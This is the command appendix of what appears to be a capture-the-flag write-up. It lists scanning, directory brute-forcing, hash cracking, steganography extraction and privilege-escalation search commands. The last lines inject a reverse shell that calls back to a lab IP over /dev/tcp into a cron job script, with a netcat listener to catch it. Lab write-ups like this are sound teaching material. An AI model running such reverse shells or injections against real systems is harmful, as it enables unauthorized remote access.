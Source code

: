 
## 🧾 Appendix — Useful Commands (from this writeup)

```bash
# nmap
nmap -sS -sV -p- 10.201.115.208

# gobuster
gobuster dir -u http://10.201.44.194/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# base64 decode
echo 'ZmxhZ3tmMXJzN19mbDRnfQ==' | base64 -d

# hashcat (example for GOST)
hashcat -m 6900 hashfile wordlist

# steghide extract
steghide extract -sf binarycodepixabay.jpg

# find writable+executable files
find / -type f -exec test -w {} \; -exec test -x {} \; -print 2>/dev/null

# injected reverse shell (example)
echo "sh -i >& /dev/tcp/10.17.21.245/1234 0>&1" > /var/www/.mysecretcronjob.sh
nc -lvnp 1234
```

---
